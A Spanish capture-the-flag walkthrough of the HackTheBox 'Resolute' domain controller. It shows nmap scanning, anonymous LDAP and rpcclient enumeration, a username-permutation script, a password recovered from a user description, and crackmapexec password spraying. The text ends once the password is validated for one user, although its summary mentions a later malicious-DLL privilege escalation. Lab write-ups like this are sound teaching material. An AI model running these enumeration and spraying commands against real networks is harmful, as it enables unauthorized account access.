 ```yaml
---
layout      : post
title       : "HackTheBox - Resolute"
author      : lanz
image       : https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220banner.png
category    : [ htb ]
tags        : [ DLL, PSTranscript, LDAP, visual-studio, DnsAdmins, DC ]
---
```

Máquina Windows nivel medio. Enumeraremos hasta más no poder un **controlador de dominio**, veremos contraseñas volando libremente e inyectaremos una **DLL** maliciosa en un servidor **DNS** 😲

![220resoluteHTB](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220resoluteHTB.png)

## TL;DR (Spanish writeup)

**Creada por**: [egre55](https://www.hackthebox.eu/profile/1190).

El dinamismo ante todooooooooooo0OoooO!

Nos enfrentaremos a un **DC** (controlador de dominio) to lindo, inicialmente enumeraremos el protocolo **LDAP**, con él conseguiremos bastante info de unos usuarios. Los recopilaremos para usarlos después.

Jugaremos con `rpcclient` para enumerar el dominio un poco más, encontraremos una contraseña en la descripción del usuario `marko`, pero validándolas contra el sistema u otro servicio no serán válidas. Tomaremos los usuarios que obtuvimos antes y probaremos con cada uno esa contraseña. Finalmente tendremos como candidato válido el usuario `Melanie`, jugando con `evil-winrm` obtendremos una **PowerShell** en el sistema como ella.

En un directorio del sistema encontraremos el log de unos comandos ejecutados en **PowerShell** (`PSTranscript`), con los ojos bien grandes veremos unas credenciales usadas por el usuario `Ryan` para intentar mapear unos directorios del sistema. Usaremos **evil-winrm** para obtener una nueva Shell.

Veremos que **Ryan** esta en el grupo `DnsAdmins`, jugaremos con ese grupo para explotar el servidor **DNS**, inyectaremos una `DDL` maliciosa que al ser ejecutada nos devuelva una **Reverse Shell** como el usuario `nt authority\system` (: 

...

### Clasificación de la máquina según la gentesita

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220statistics.png" style="display: block; margin-left: auto; margin-right: auto; width: 80%;"/>

Mucho real!! Bastante enumerar y manos ensuciar e.e

> Escribo para tener mis "notas", por si algun dia se me olvida todo, leer esto y reencontrarme (o talvez no) :) además de enfocarme en plasmar mis errores y exitos (por si ves mucho texto), todo desde una perspectiva más de enseñanza que de solo mostrar lo que hice.

...

HAY QUE VIVIR TODOS LOS DÍAS!

1. [Reconocimiento](#reconocimiento).
  * [Enumeración de puertos con nmap](#enum-nmap).
2. [Enumeración](#enumeracion).
  * [Recorremos el protocolo **LDAP**](#puertos-ldap).
3. [Explotación: encontramos usuarios en el servidor **LDAP**](#explotacion).
  * [Enumeramos un poquito más del **Domain Controller**](#rpcclient-dc).
4. [Nos movemos de **Melanie** a **Ryan** viendo archivos del sistema](#creds-pstranscript).
5. [Escalada de privilegios: explotamos el grupo **DnsAdmins**](#escalada-de-privilegios).
6. [**<u>Post-Explotación: Compilamos nuestra propia **DLL**</u>**](#manual-dll).
  * [Generamos la **DLL** usando **dns-exe-persistance**](#repo-dns-exe-persistance).
  * [Generamos la **DLL** usando **DNSAdmin-DLL**](#repo-dnsadmin-dll).

...

# Reconocimiento [#](#reconocimiento) {#reconocimiento}

...

## Enumeración de puertos con nmap [📌](#enum-nmap) {#enum-nmap}

Iniciaremos encontrando que puertos tiene activos y expuestos la máquina, para esto usaremos `nmap`:

```bash
❱ nmap -p- --open -v 10.10.10.169 -oG initScan
```

| Parámetro | Descripción |
| --------- | :---------- |
| -p-       | Escanea todos los 65535                      |
| --open    | Solo los puertos que están abiertos          |
| -v        | Permite ver en consola lo que va encontrando |
| -oG       | Guarda el output en un archivo con formato grepeable para usar una [función **extractPorts**](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/magic/extractPorts.png) de [S4vitar](https://s4vitar.github.io/) que me extrae los puertos en la clipboard |

El escaneo nos devuelve varios puertos:

```bash
❱ cat initScan
# Nmap 7.80 scan initiated Wed Aug 11 25:25:25 2021 as: nmap -p- --open -v -oG initScan 10.10.10.169
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.169 ()	Status: Up
Host: 10.10.10.169 ()	Ports: 53/open/tcp//domain///, 88/open/tcp//kerberos-sec///, 135/open/tcp//msrpc///, 139/open/tcp//netbios-ssn///, 389/open/tcp//ldap///, 445/open/tcp//microsoft-ds///, 464/open/tcp//kpasswd5///, 593/open/tcp//http-rpc-epmap///, 636/open/tcp//ldapssl///, 3268/open/tcp//globalcatLDAP///, 3269/open/tcp//globalcatLDAPssl///, 5985/open/tcp//wsman///, 9389/open/tcp//adws///, 47001/open/tcp//winrm///, 49664/open/tcp/////, 49666/open/tcp/////, 49667/open/tcp/////, 49670/open/tcp/////, 49676/open/tcp/////, 49677/open/tcp/////, 49688/open/tcp/////, 49712/open/tcp/////
# Nmap done at Wed Aug 11 25:25:25 2021 -- 1 IP address (1 host up) scanned in 126.37 seconds
```

| Puerto | Descripción |
| ------ | :---------- |
| 53                | **[DNS](https://book.hacktricks.xyz/pentesting/pentesting-dns)**: Permite a internet identificar que dominio es de que IP y viceversa. |
| 88                | **[Kerberos](https://book.hacktricks.xyz/pentesting/pentesting-kerberos-88)**: Protocolo de autenticación.  |
| 135/593           | **[RPC](https://book.hacktricks.xyz/pentesting/135-pentesting-msrpc)**: Permite la comunicación entre computadores de distintas redes sin problemas. |
| 139/445           | **[SMB](https://www.varonis.com/blog/smb-port/)**: Podemos compartir información entre dispositivos de una red. |
| 389/636/3268/3269 | **[LDAP](https://book.hacktricks.xyz/pentesting/pentesting-ldap)**: Protocolo que ayuda a la localización de "recursos" en una red. |
| 464               | **[kpasswd5](https://security.stackexchange.com/questions/205492/what-is-this-service)**: Relacionado con el protocolo **kerberos**: `Kerberos Password Change`. |
| 5985/47001        | **[WinRM](https://www.pcwdld.com/what-is-winrm)**: Usado para ejecutar tareas administrativas de una red. |
| 9389              | **[ADWS](https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/get-started/adac/active-directory-administrative-center)**: `Active Directory Administrative Center`. |
| 49664/49666       | No sabemos. |
| 49667/49670/49676 | No sabemos. |
| 49677/49688/49712 | Y no sabemos. |

Uff, varios puertos...

Ya teniendo conocimiento de los servicios que tiene activos la máquina, haremos otro escaneo, pero esta vez para descubrir que versiones y script están relacionados con cada servicio:

**~(Usando la función `extractPorts` (referenciada antes) podemos copiar rápidamente los puertos en la clipboard, así no tenemos que ir uno a uno**
 
```bash
❱ extractPorts initScan 
[*] Extracting information...

    [*] IP Address: 10.10.10.169
    [*] Open ports: 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49666,49667,49670,49676,49677,49688,49712

[*] Ports copied to clipboard
```

**)~**

```bash
❱ nmap -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49666,49667,49670,49676,49677,49688,49712 -sC -sV 10.10.10.169 -oN portScan
```

| Parámetro | Descripción |
| --------- | :---------- |
| -p        | Escaneo de los puertos obtenidos                       |
| -sC       | Muestra todos los scripts relacionados con el servicio |
| -sV       | Nos permite ver la versión del servicio                |
| -oN       | Guarda el output en un archivo                         |

Obtenemos:

```bash
❱ cat portScan
# Nmap 7.80 scan initiated Wed Aug 11 25:25:25 2021 as: nmap -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49666,49667,49670,49676,49677,49688,49712 -sC -sV -oN portScan 10.10.10.169
Nmap scan report for 10.10.10.169
Host is up (0.12s latency).

PORT      STATE SERVICE      VERSION
53/tcp    open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2021-08-11 16:45:18Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49688/tcp open  msrpc        Microsoft Windows RPC
49712/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=8/11%Time=6113FBAF%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"...
SF:...x03");
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h32m36s, deviation: 4h02m31s, median: 12m35s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2021-08-11T09:46:12-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-08-11T16:46:13
|_  start_date: 2021-08-11T16:08:23

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Aug 11 25:25:25 2021 -- 1 IP address (1 host up) scanned in 173.51 seconds
```

Peeeerfecto, destacamos:

| Puerto | Servicio | Versión |
| :----- | :------- | :------ |
| 389    | LDAP     | LDAP |

  * Un dominio: `megabank.local`.

---

| Puerto | Servicio | Versión |
| :----- | :------- | :------ |
| 445    | SMB      | Windows Server 2016 Standard 14393 |

  * Vemos también el [grupo de trabajo](https://social.technet.microsoft.com/Forums/lync/es-ES/833097b4-30e4-4028-a59e-38d06c7024f5/para-que-sirve-un-grupo-de-trabajo?forum=win10itprogeneralES#11a41872-a3e7-4fa1-92af-291de8c17fda) `MEGABANK`.

Por el momento nada más, ahora si empecemos a romper de toooooooooodo 🕯️

...

# Enumeración [#](#enumeracion) {#enumeracion}

...

## Protocolo <u>LDAP</u> [📌](#puertos-ldap) {#puertos-ldap}

Después de probar y probar cositas hacia el **DNS** o hacia **SMB** no encontramos nada :(

Sin embargo si nos enfocamos en enumerar los recursos sostenidos por el protocolo `LDAP` vemos varias cositas interesantes...

📥 ***"`LDAP` son las siglas de **Protocolo Ligero de Acceso a Directorio**, o en inglés **Lightweight Directory Access Protocol**). Se trata de un conjunto de protocolos de licencia abierta que son utilizados para **acceder a la información que está almacenada de forma centralizada** en una red."*** [profesionalreview](https://www.profesionalreview.com/2019/01/05/ldap/).

Muy bien, apoyados en [esta guía](https://book.hacktricks.xyz/pentesting/pentesting-ldap) logramos profundizar y encontrar cadenas llamativas, empezaremos a jugar con un script de `nmap` que busca todos los recursos servidos por el protocolo y los muestra, se llama [ldap-search](https://nmap.org/nsedoc/scripts/ldap-search.html):

```bash
❱ nmap -p 389 --script "ldap-search" 10.10.10.169 -oN ldapSearch
```

Nos devuelve un gran output, pero ya en las primeras líneas podemos extraer info para seguir jugando:

```bash
# Nmap 7.80 scan initiated Wed Aug 11 25:25:25 2021 as: nmap -p 389 --script ldap-search -oN ldapSearch 10.10.10.169
Nmap scan report for 10.10.10.169
Host is up (0.11s latency).

PORT    STATE SERVICE
389/tcp open  ldap
| ldap-search: 
|   Context: DC=megabank,DC=local
|     dn: DC=megabank,DC=local
|         objectClass: top
|         objectClass: domain
|         objectClass: domainDNS
|         distinguishedName: DC=megabank,DC=local
...
...
...
```

Volvemos a ver el dominio de antes (`megabank.local`) pero separado, lo que realmente tenemos ahí es el *componente del dominio* (`DC`), que sería el objeto que toma el **DNS** como referencia para definir un "nombre de espacio" (como un "identificador").

Esto nos sirve para jugar a enumerar ese **DC**, ya sea con la herramienta `ldapsearch` o (hay más de 2 opciones claramente) con una librería de **Python** llamada `ldap3`. 

Empecemos con `ldapsearch` y después hacemos unos truquitos bonitos con **Python** y su librería `ldap3`.

```bash
❱ ldapsearch -h 10.10.10.169 -x -b "DC=megabank,DC=local"
```

| Parámetro | Descripción |
| --------- | :---------- |
| -h        | Le pasamos el servidor donde esta el protocolo **LDAP** |
| -x        | Hacemos una autenticación simple, sin contraseña        |
| -b        | Le indicamos cuál es la base de nuestra búsqueda        |

Al ejecutarlo vemos el output que obtuvimos con `nmap` peeeeeeero muchas cosas más. Y descubrimos esto:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220bash_ldapsearch_foundUsers.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Vemos al final varios usuarios, les muestro a `Simon` porque fue el primero que vi, pero hay unos cuantos, si detallamos la imagen hay dos líneas interesantes:

* El `Common Name (CN)` contiene el nombre y apellido del usuario en el formato `Nombre Apellido` (nótese las mayus).
* En el campo `userPrincipalName` esta el correo relacionado con ese usuario, pero también podemos destacar su formato: `nombre@megabank.local`.

Esto es supremamente llamativo, ya que de una enumeración de recursos del servidor `LDAP` hemos encontrado usuarios relacionados con el **Domain Controller** `megabank.local` 🔥

* Pa leer - [Términos extraños (CN, DC, DN, etc.) : Understanding Active Directory Services](https://www.informit.com/articles/article.aspx?p=101405&seqNum=7).

Pues si volvemos a ejecutar la instrucción, pero filtrando con **grep** por `cn:` (si no sabes por qué, vuelve a la imagen de arriba) para ver únicamente el nombre completo del usuario, nos damos cuenta de que la lista empieza con el usuario `Ryan`:

```bash
❱ ldapsearch -h 10.10.10.169 -x -b "DC=megabank,DC=local" | grep "cn:"
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220bash_ldapsearch_grepCN1.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Po muy bien, lo que podemos hacer ahora es filtrar desde `Ryan` hasta (por ejemplo) 30 líneas después:

```bash
❱ ldapsearch -h 10.10.10.169 -x -b "DC=megabank,DC=local" | grep "cn:" | grep "Ryan" -A 30
cn: Ryan Bertrand
cn: Marko Novak
...
```

Ya tendríamos los usuarios, quitémosle el `cn:` y guardémoslos en un archivo:

```bash
# Separamos la cadena por sus espacios y nos quedamos con la segunda posicion en adelante (`2-`)
❱ ldapsearch -h 10.10.10.169 -x -b "DC=megabank,DC=local" | grep "cn:" | grep "Ryan" -A 30 | cut -d " " -f2-
```

```bash
❱ ldapsearch -h 10.10.10.169 -x -b "DC=megabank,DC=local" | grep "cn:" | grep "Ryan" -A 30 | cut -d " " -f2- > users.txt 
❱ cat users.txt | wc -l
23
```

Hay **23** usuarios, antes de ponernos a probar fuerza bruta o cualquier otra cosa es muy importante interpretar en que entorno estamos. 

Si nos hemos dado cuenta estamos dentro de un **directorio activo (Active Directory o AD)**, que de una manera muuuuuuuy resumida ayuda a administrar políticas, credenciales, equipos y otras cositas de toooda la red.

* [Más info AD - Active Directory Que es y para qué sirve](https://www.profesionalreview.com/2018/12/15/active-directory/).

Algo llamativo de los usuarios que existen en un **AD** son el formato en que son guardados (depende claramente de la empresa que gestiona ese AD).

Tomaremos de ejemplo el usuario `Carlos Carlitos` y el dominio `nanai`: nos podemos encontrar varios "templates":

(*Imagina con mayus también*)

* `c.carlitos@nanai`.
* `ccarlitos@nanai`.
* `Carlos@nanai`.
* `CarlosCarlitos@nanai`.

Y bueno, las demás formas que te puedas imaginar, esas serian las más conocidas y usadas. Pero, ¿de qué nos sirve esto? Bueno, muy sencillo, si en dado caso de probar el usuario `carlos` con tooooooodas las contraseñas posibles, pueda que ninguna nos dé resultado, ¿pero nos frenamos? Pues no, jugamos por ejemplo con un usuario llamado `ccarlitos` o `CarlosCarlitos` o bueno ya me entiendes :P el estar en un entorno como **AD** nos abre la puerta a más pruebas, ahora si sigamos...

Veamos rápidamente como obtener los mismos usuarios pero con la librería de `ldap3` en **Python3**:

* [Basic Enumeration LDAP with <u>import ldap3</u>](https://book.hacktricks.xyz/pentesting/pentesting-ldap#manual).

Creamos el script:

```py
#!/usr/bin/python3

import ldap3

# Nos conectamos al servidor LDAP
server = ldap3.Server('10.10.10.169', get_info = ldap3.ALL, port = 389, use_ssl = False)
connection = ldap3.Connection(server)
connection.bind()

# Buscamos en el Domain Controller y filtramos por los objetos "persona" con atributos Common Name
connection.search(search_base='DC=megabank,DC=local', search_filter='(&(objectClass=person))', search_scope='SUBTREE', attributes='CN')

# Obtenemos un array como respuesta
print(connection.entries)
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220bash_scriptPY_connectLDAP_users.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Listones, ya tendríamos los usuarios, esto nos permite jugar de toooooooooodas las formas posibles con ellos desde el mismo **programa**, nuestro script final con únicamente los usuarios sería este:

```py
#!/usr/bin/python3

import ldap3
import re

server = ldap3.Server('10.10.10.169', get_info = ldap3.ALL, port = 389, use_ssl = False)
connection = ldap3.Connection(server)
connection.bind()

connection.search(search_base='DC=megabank,DC=local', search_filter='(&(objectClass=person))', search_scope='SUBTREE', attributes='CN')

# Volvemos a extraer toda la data despues del `cn:` (texto que este entre varios rangos: de la 'A' a la 'Z', de la 'a' a la 'z', del '0' al '9' y espacios en blanco.
users_array = re.findall(r'cn: [A-Za-z0-9\s].+', str(connection.entries))
print(users_array)
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220bash_scriptPY_connectLDAP_arrayUsers.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Ahora nos queda jugar con ese array y generar infinidad de usuarios.

▶️ ***[Lindo tutorial de expresiones regulares](https://github.com/ziishaned/learn-regex/blob/master/translations/README-es.md)***.

...

# Explotación [#](#explotacion) {#explotacion}

Con ayuda de la librería `ldap3` en **Python** y nuestra extracción de usuarios podemos crear un bucle primero para quitar `cn:` de cada usuario y segundo para armar el formato que queramos con respecto a cada user, este sería el resultado final de nuestro script:

```py
#!/usr/bin/python3

import ldap3
import re

server = ldap3.Server('10.10.10.169', get_info = ldap3.ALL, port = 389, use_ssl = False)
connection = ldap3.Connection(server)
connection.bind()

connection.search(search_base='DC=megabank,DC=local', search_filter='(&(objectClass=person))', search_scope='SUBTREE', attributes='CN')

users_array = re.findall(r'cn: [A-Za-z0-9\s].+', str(connection.entries))

# Creamos archivo vacio llamado `users.txt`
file_users = open("users.txt", "w")
for user_with_cn in users_array:
    user = user_with_cn.replace("cn: ","")

    # Ejemplo: Ryan Bertrand
    try:
        # Ryan
        firstname = user.split()[0]
        # Bertrand
        lastname = user.split()[1]

        # -- Abrimos archivo para adjuntar data, no para sobreescribirla
        file_users = open("users.txt", "a")

        # Ryan
        file_users.write(firstname + "\n")
        # ryan.bertrand
        file_users.write(firstname.lower() + "." + lastname.lower() + "\n")
        # Ryan.Bertrand
        file_users.write(firstname + "." + lastname + "\n")
        # Ryan@Bertrand
        file_users.write(firstname + "@" + lastname + "\n")
        # RyanBertrand
        file_users.write(firstname + lastname + "\n")
        # R.bertrand
        file_users.write(firstname[0] + "." + lastname.lower() + "\n")
        # Rbertrand
        file_users.write(firstname[0] + lastname.lower() + "\n")
        # r.bertrand
        file_users.write(firstname.lower()[0] + "." + lastname.lower() + "\n")
        # rbertrand
        file_users.write(firstname.lower()[0] + lastname.lower() + "\n")

    except:
        pass

file_users.close()
```

Y en nuestro archivo `users.txt` veríamos algo así con todos los usuarios:

```bash
❱ cat users.txt
...
Marcus
marcus.strong
Marcus.Strong
Marcus@Strong
MarcusStrong
M.strong
Mstrong
m.strong
mstrong
...
```

Perfectísimo, tendríamos varias opciones de usuarios, solo nos faltaría la contraseña, podemos probar varias cosas, inicialmente algo como que cada **usuario** tome su "user" como contraseña (no se sabe, la vida es muy loca :P):

Nos apoyaremos en `crackmapexec` que puede validar rápidamente contra **SMB** si unas credenciales son válidas o no:

```bash
❱ crackmapexec smb 10.10.10.169 -u users.txt -p users.txt
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Ryan:Ryan STATUS_LOGON_FAILURE
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Ryan:ryan.bertrand STATUS_LOGON_FAILURE
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Ryan:Ryan.Bertrand STATUS_LOGON_FAILURE
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Ryan:Ryan@Bertrand STATUS_LOGON_FAILURE
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Ryan:RyanBertrand STATUS_LOGON_FAILURE
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Ryan:R.bertrand STATUS_LOGON_FAILURE
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Ryan:Rbertrand STATUS_LOGON_FAILURE
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Ryan:r.bertrand STATUS_LOGON_FAILURE
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Ryan:rbertrand STATUS_LOGON_FAILURE
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Ryan:Marko STATUS_LOGON_FAILURE
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Ryan:marko.novak STATUS_LOGON_FAILURE
...
```

Pero nada, ninguna es valida 😔

---

## Enumeramos con <u>rpcclient</u> el <u>Domain Controller</u> [📌](#rpcclient-dc) {#rpcclient-dc}

Después de agotar pruebas volvi al escaneo de puertos y recordé a `rpcclient`, herramienta que nos ayuda a rescatar más info del controlador de dominio (en caso de no necesitar credenciales 🙃), su uso es sencillo:

```bash
❱ rpcclient 10.10.10.169 -U "" -N
rpcclient $>
```

Perfecto, nos dejó entrar sin credenciales, ahora es ver si hay algo para enumerar...

Intentando ver los usuarios del dominio obtenemos info, lo único que cambia con respecto a los que tenemos son los primeros:

```bash
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[ryan] rid:[0x451]
...
```

Si nos fijamos también nos muestra un campo llamado `rid` que seria como un identificador para ese usuario, este nos sirve entre varias cosas para listar más info acerca del user, como por ejemplo con `Administrator`:

```bash
rpcclient $> queryuser 0x1f4
        User Name   :   Administrator
        Full Name   :
        Home Drive  :
        Dir Drive   :
        Profile Path:
        Logon Script:
        Description :   Built-in account for administering the computer/domain
        Workstations:
        Comment     :
        Remote Dial :
        Logon Time               :      mié, 11 ago 2021 11:09:43 -05
        Logoff Time              :      mié, 31 dic 1969 19:00:00 -05
        Kickoff Time             :      mié, 31 dic 1969 19:00:00 -05
        Password last set Time   :      jue, 12 ago 2021 09:46:03 -05
        Password can change Time :      vie, 13 ago 2021 09:46:03 -05
        Password must change Time:      mié, 13 sep 30828 21:48:05 -05
        unknown_2[0..31]...
        user_rid :      0x1f4
        group_rid:      0x201
        acb_info :      0x00000210
        fields_present: 0x00ffffff
        logon_divs:     168
        bad_password_count:     0x00000000
        logon_count:    0x0000003e
        padding1[0..7]...
        logon_hrs[0..21]...
```

Obtenemos eso, una información más detallada del usuario, podríamos hacer a mano esto con todos los demás usuarios, pero es un poco feo, lo mejor es automatizarlo, hagámoslo rápidamente con ayuda de la terminal, lo primero es extraer todos los `rids`:

Con el parámetro `-c` le indicamos que ejecute un comando y no nos devuelva una sesión interactiva:

```bash
❱ rpcclient 10.10.10.169 -U "" -N -c 'enumdomusers'
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
...
```

Ahora filtramos por el `rid`:

```bash
❱ rpcclient 10.10.10.169 -U "" -N -c 'enumdomusers' | grep -oP "rid.+"
rid:[0x1f4]
rid:[0x1f5]
...
```

Separamos la cadena en dos delimitndola por el simbolo `:` y nos quedamos con el segundo valor:

```bash
❱ rpcclient 10.10.10.169 -U "" -N -c 'enumdomusers' | grep -oP "rid.+" | cut -d ':' -f 2
[0x1f4]
[0x1f5]
...
```

Y simplemente quitamos los `[]` de la cadena:

```bash
❱ rpcclient 10.10.10.169 -U "" -N -c 'enumdomusers' | grep -oP "rid.+" | cut -d ':' -f 2 | tr -d '[]'
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220bash_rpcclientGREP_rids.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Listones, al final le agregamos un archivo donde queremos guardar esos valores (`... > rids.txt`) y ya tenemos los `rids` (: 

Ahora volvemos a usar `rp, pero con el comando `queryuser` y le vamos pasando los `rids` del archivo, primero hagamos una prueba con el usuario `Administrator`, ya vimos todos los campos que nos devuelve al ejecutar el comando, quedémonos con el nombre del usuario y su descripción, ningún otro campo se ve llamativo así que juguemos con esos dos:

```bash
❱ rpcclient 10.10.10.169 -U "" -N -c 'queryuser 0x1f4' -N | grep -E "User Name|Description"
        User Name   :   Administrator
        Description :   Built-in account for administering the computer/domain
```

```bash
❱ rpcclient 10.10.10.169 -U "" -N -c 'queryuser 0x1f4' -N | grep -E "User Name|Description" | cut -d ":" -f2-
        Administrator
        Built-in account for administering the computer/domain
```

```bash
❱ rpcclient 10.10.10.169 -U "" -N -c 'queryuser 0x1f4' -N | grep -E "User Name|Description" | cut -d ":" -f2- | sed -e 's/^[[:space:]]*//'
Administrator
Built-in account for administering the computer/domain
```

Listo, ya tenemos nuestro output deseado, juguemos con un bucle que lea cada línea del archivo y realice el mismo procedimiento pero con todos los usuarios:

```bash
❱ for i in $(cat rids.txt); do echo "-----------"; rpcclient 10.10.10.169 -U "" -N -c "queryuser $i" -N | grep -E "User Name|Description" | cut -d ":" -f2- | sed -e 's/^[[:space:]]*//'; done
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220bash_forloop_rpcclient_foundPW.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

¿Ya viste algo? 😵 Efectivamente, hay una contraseña seteada para el usuario `marko` :O :o O.O Puuuuuuuuuuuess probando de nuevo con `cme`, pero ahora contra "`marko`" no nos dan resultado esas credenciales :(

```bash
❱ crackmapexec smb 10.10.10.169 -u 'marko' -p 'Welcome123!'
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\marko:Welcome123! STATUS_LOGON_FAILURE
```

Probando contra los demás servicios no es válida tampoco :( peeeeeeeeeeero no nos rendimos, si recordamos habíamos creado una lista de usuarios muy linda, pues volvamos a probar con cada usuario del objeto pero ahora contra esa contraseña:

```bash
❱ crackmapexec smb 10.10.10.169 -u users.txt -p 'Welcome123!'
...
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220bash_cme_MelaniePWvalid.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

OPAAAAAAAAAAAAAAAAAAAAA, `crackmapexec` nos indica que esa contraseña es válida contra el usuario `Melanie`. 

